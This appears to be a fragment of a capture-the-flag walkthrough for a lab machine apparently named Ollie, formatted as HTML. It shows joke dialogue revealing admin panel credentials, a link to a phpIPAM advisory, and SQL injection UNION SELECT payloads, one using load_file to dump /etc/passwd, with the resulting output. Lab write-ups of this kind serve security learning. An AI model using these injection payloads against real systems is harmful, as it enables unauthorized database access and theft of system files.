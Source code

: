 <div><span style="color: #9aa83a;">You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...</span></div>
<div><span style="color: #9aa83a;">Please hold on a minute</span></div>
<div><span style="color: #9aa83a;">Ok, I'</span>m back.</div>
<div>After a lengthy discussion, we<span style="color: #9aa83a;">'ve come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.</span></div>
<br />
<div><span style="color: #9aa83a;">                    Username: admin</span></div>
<br />
<div><span style="color: #9aa83a;">                    Password: OllieUnixMontgomery!</span></div>
<br />
<div><span style="color: #9aa83a;">PS: Good luck and next time bring some treats!</span></div>
<br />
<div><span style="color: #9aa83a;">thanks! bringing treats, piles of treats you magnificent bastard!</span></div>
<br />
<div><span style="color: #9aa83a;">https://fluidattacks.com/advisories/mercury/</span></div>
<br />
<div><span style="color: #9aa83a;">Input (filter SQLi):</span></div>
<div><span style="color: #9aa83a;">" union select 1,1,user(),1 -- -</span></div>
<br />
<div><span style="color: #9aa83a;"> 1/phpipam_ollie@localhost (1)</span></div>
<br /><br /><br />
<div><span style="color: #9aa83a;">" union select user(),1,1,load_file('</span>/etc/passwd<span style="color: #9aa83a;">') -- -</span></div>
<div><span style="color: #9aa83a;"> phpipam_ollie@localhost/1 (root:x:0:0:root:/root:/bin/bash</span></div>
<div><span style="color: #9aa83a;"> daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> bin:x:2:2:bin:/bin:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> sys:x:3:3:sys:/dev:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> sync:x:4:65534:sync:/bin:/bin/sync</span></div>
<div><span style="color: #9aa83a;"> games:x:5:60:games:/usr/games:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> man:x:6:12:man:/var/cache/man:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> mail:x:8:8:mail:/var/mail:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> news:x:9:9:news:/var/spool/news:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> proxy:x:13:13:proxy:/bin:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> backup:x:34:34:backup:/var/backups:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> list:x:38:38:Mailing</span></div>
<div><span style="color: #9aa83a;"> List</span></div>
<div><span style="color: #9aa83a;"> Manager:/var/list:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> gnats:x:41:41:Gnats</span></div>
<div><span style="color: #9aa83a;"> Bug-Reporting</span></div>
<div><span style="color: #9aa83a;"> System</span></div>
<div><span style="color: #9aa83a;"> (admin):/var/lib/gnats:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> systemd-network:x:100:102:systemd</span></div>
<div><span style="color: #9aa83a;"> Network</span></div>
<div><span style="color: #9aa83a;"> Management,,,:/run/systemd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> systemd-resolve:x:101:103:systemd</span></div>
<div><span style="color: #9aa83a;"> Resolver,,,:/run/systemd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> systemd-timesync:x:102:104:systemd</span></div>
<div><span style="color: #9aa83a;"> Time</span></div>
<div><span style="color: #9aa83a;"> Synchronization,,,:/run/systemd:/usr/sbin/nologin</span></div>
<div><span style="color: #9aa83a;"> messagebus:x:103:106::/nonexistent:/usr/sbin/nologin</span></div>